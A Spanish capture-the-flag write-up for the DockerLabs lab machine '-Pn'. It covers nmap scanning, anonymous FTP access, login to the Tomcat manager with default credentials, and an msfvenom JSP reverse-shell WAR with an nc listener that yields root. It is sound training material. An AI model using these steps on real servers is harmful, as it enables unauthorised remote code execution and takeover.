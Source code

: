 # [-Pn](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pn.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).


## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)

`-c 1` ⮞ solo lo repite una vez

<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que están abiertos los puertos **21** y **8080**.
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/44f6d073-52a3-4b3c-9dee-cef94ebe4edc)

<br>

Al ver que está abierto el puerto FTP vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` <br>
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes <br> 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)<br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/530c86d6-efde-4e04-8be6-468d27df3b57)

<br>
<br>


## FTP (Puerto 21)

Una vez ya conozcamos que la versión del ftp es vulnerable al login como `anonymous`, por lo que nos logeamos como este de la siguiente forma `ftp 172.17.0.2` poniendo `anonymous` como login y contraseña, y vemos que tiene un archivo llamado `tomcat.txt`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/24e78158-d66b-49b7-b739-85c760917b1b)
<br>

Nos lo guardamos en nuestra máquina con `get tomcat.txt` por si nos hiciera falta más adelante.

<br>

Vemos el contenido del archivo con `cat tomcat.txt`, y bueno tenemos un posible usuario llamado `tomcat`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cae42bee-ed28-4526-9959-14646212a510)

<br>
<br>


## Página Web (Puerto 8080)

Al ver que aloja un servidor web, nos dirigimos a él poniendo en el buscador la ip que en este caso sería `172.17.0.2:8080`. Observamos que en dicho servidor web se aloja un `Apache TomCat 9.0.88` .
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/20aee9e5-5540-40ff-9183-d5fd4f7a5523)

<br>

Si echamos un vistazo por la página vemos en el siguiente recuadro amarillo, un link para acceder al `manager webapp`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0643d2b1-75b7-4a83-a1e2-d48b012731eb)

<br>

Si pinchamos nos sale lo siguiente:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/95018d56-5ceb-4855-8af6-6f901c543f94)

<br>

Si buscamos en páginas como [Hacktricks](https://book.hacktricks.xyz/v/es), por la credenciales por defecto de Apache Tomcat nos encontraremos con algo parecido a esto:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/730fc856-9dc1-42f6-98f4-ac529d53ef09)

<br>

Probamos las credenciales que aparecen ahí, y las que funcionan son las de `tomcat:s3cr3t`, como bien habiamos encontrado en el fichero (`tomcat.txt`) del servidor ftp, existía un usuario `tomcat`.

<br>

Ahora nos encontramos con el panel de admin de apache, que tiene esta pinta:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/e4b9ae3f-4d5b-47aa-9482-236d27a64b48)

<br>

Ahora lo que debemos hacer es buscar alguna manera de intentar entrar en la máquina `-Pn`, en la misma página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) donde he encontrado las credenciales por defecto más abajo nos menciona una RCE si tienes acceso al panel de Administrador que es justo lo que hemos conseguido: 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/47253580-fa7f-4875-94cd-110ba95b69d3)

<br>

Nos dice que tenemos que subir un archivo `.war`, para ello usaremos `msfvenom` como bien nos indica la página de [Hacktricks](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat) con el siguiente comando: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war`. <br>
`-p` ⮞ le especificamos el payload a usar <br>
`LHOST` ⮞ nuestra dirección ip <br> 
`LPORT` ⮞ nuestro puerto por el cual nos pondremos en escucha <br>
`-f` ⮞ formato para exportar el payload <br> 
`-o` ⮞ guardar el payload en un archivo 

<br>

Observamos que se nos ha generado el archivo con el cual nos mandaremos una reverse shell:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/9b8d56e1-0948-48ab-aef3-634c4eb15c83)

<br>

En primer lugar, nos pondremos en escucha por el puerto especificado, en este caso el `443` con el siguiente comando `nc -nlvp 443`.

<br>

En segundo lugar, subiremos el archivo `revshell.war` al Panel de Administrador de Tomcat en el apartado que dice `WAR file to deploy`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/c3bf91d8-afb9-4d55-9a24-37c3b158f50f)

<br>

Nos dice que se ha subido correctamente, comprobamos que el archivo se encuentra en esta tabla:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/75c1bbf3-54ae-436d-b049-4090c98d4ca4)

<br>

Una vez que le hemos dado click recibiremos la revshell, por el puerto que nos habiamos puesto en escucha
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/dd9d2610-8a55-4aa1-bf94-4ca85f876aa6)

<br>
<br>

## Escalada de Privilegios

No es necesario el tratamiento de la TTY, pero si queremos hacer alguna prueba con dicha máquina, debéis aplicar el siguiente tratamiento de la TTY:<br>
1-.`script /dev/null -c bash` <br>
2-.`Pulsamos CTRL+Z` <br>
3-.`stty raw -echo; fg` <br>
4-.`reset xterm` <br>
5-.`export SHELL=bash && export TERM=xterm` <br>

No hará falta la escalar privilegios ya que hemos accedido directamente a la máquina víctima `-Pn` como el usuario **root**:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/427ecc79-24bd-4386-bc92-afdc4f7dc51e)

 > El (;) concatena dos comandos.
